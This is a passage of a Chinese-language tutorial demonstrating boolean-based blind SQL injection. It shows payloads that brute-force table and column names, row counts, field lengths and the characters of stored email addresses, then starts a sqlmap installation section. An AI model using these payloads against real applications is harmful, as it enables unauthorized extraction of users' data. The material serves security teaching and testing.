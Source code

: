 之后爆破每个字符：

```
1 and (select substr(column_name,$1,1) from information_schema.columns where table_name='email' limit 1,1)=$2
```

`$1`配置为 1 ~ 5的整数，`$2`的配置为上面的列表。

![](http://upload-images.jianshu.io/upload_images/118142-b0cdf2a93255aa5e.jpg)

结果是`email`。

## 查询行数量

```
1 and (select count(1) from email)=?
```

问号处替换为从一开始的数字。我们可以看到，数量为 2。

![](http://upload-images.jianshu.io/upload_images/118142-5af57e4f3fdad21d.jpg)

## 查询记录

我们这里演示如何查询第一条记录的`email`列。

首先是长度：

```
1 and (select length(email) from email limit 0,1)=?
```

问号处替换为从一开始的数字。我们可以看到，长度为 17。

![](http://upload-images.jianshu.io/upload_images/118142-e48ff0d2979531e3.jpg)

之后爆破每个字符：

```
1 and (select substr(email,$1,1) from email limit 0,1)=$2
```

`$1`配置为 1 ~ 17的整数，`$2`的配置为所有可见字符的十六进制 ascll 值（0x20 ~ 0x7e）。

这个时间有些长，就不演示了。

## SqlMap

### 下载

安装 Python 之后，执行

```
pip install sqlmap
```

然后
